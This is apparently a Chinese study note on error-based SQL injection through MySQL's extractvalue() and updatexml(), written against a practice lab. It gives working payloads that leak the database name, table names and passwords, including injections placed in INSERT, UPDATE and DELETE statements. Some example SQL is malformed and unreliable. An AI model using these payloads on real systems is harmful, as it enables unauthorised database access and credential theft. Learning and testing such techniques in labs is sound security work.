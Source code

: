 # extractvalue() 和 updatexml()报错注入

使用基于函数的报错注入，函数会执行，并将结果返和错误信息一起返回

使用concat将字符串拼接，防止错误信息显示不全

```
' and updatexml(1,concat('!',database()),1)#
```

```
' and extractvalue(1,concat('!',database()))#
```

当结合查询语句是，使用括号，==使用查询时只能包含一列字段结果只能有一行==

```
' and updatexml(1,concat('!',(select table_name from information_schema.tables where table_schema='pikachu' limit 1)),1)#
```

```
' and extractvalue(1,concat('!',(select password from users limit 1)))#
```

## 结合insert或update报错注入

### insert

正常的SQL

```
insert into users * values('zs','toor',1,119)
```

使用payload`'or extractvalue(1,concat('!',(select password from users limit 1)))or '`

```
insert into users * values('zs','or extractvalue(1,concat('!',(select password from users limit 1)))or ',''，'')
```

### update

正常SQL

```
update users set name='zsf', password='fsz' where name='zs'
```

使用payload`' or extractvalue(1,concat('!',(select password from users limit 1))) or '`

```
update users set name='zsf',password='' or extractvalue(1,concat('!',(select password from users limit 1))) or '' where name='zs'
```

### delete

正常SQL

```
delete from users where id = 1
```

使用payload`or extractvalue(1,concat('!',(select password from users limit 1)))`

```
delete from users where id = 1 or extractvalue(1,concat('!',(select password from users limit 1)))
```

